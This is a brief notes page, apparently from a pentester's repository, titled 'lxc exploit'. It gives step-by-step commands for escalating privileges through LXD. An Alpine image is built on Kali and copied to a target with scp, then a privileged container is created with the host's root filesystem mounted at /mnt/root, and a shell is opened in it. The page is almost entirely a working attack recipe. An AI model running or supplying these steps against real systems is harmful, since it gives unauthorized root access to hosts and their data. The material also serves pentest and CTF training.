 ## lxc exploit

**kali linux**

Create an image. The result is a .tar file containing image, which should be tranferred to the target
```
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
./build-alpine  
scp alpine.tar.gz bob@target:
```
I couldn't get it work with '-a i686', where i686 is the arhitecture
Set the appropriate arch if needed.


**target system**

```

lxc image import alpine.tar.gz --alias alpine
lxc image list
lxc init alpine privesc -c security.privileged=true
lxc list
lxc config device add privesc host-root disk source=/ path=/mnt/root/
lxc start privesc
lxc exec privesc /bin/sh
```

NOTE: the root folder is now in /mnt/root/

/tmp on host becomes /mnt/root/tmp

etc.
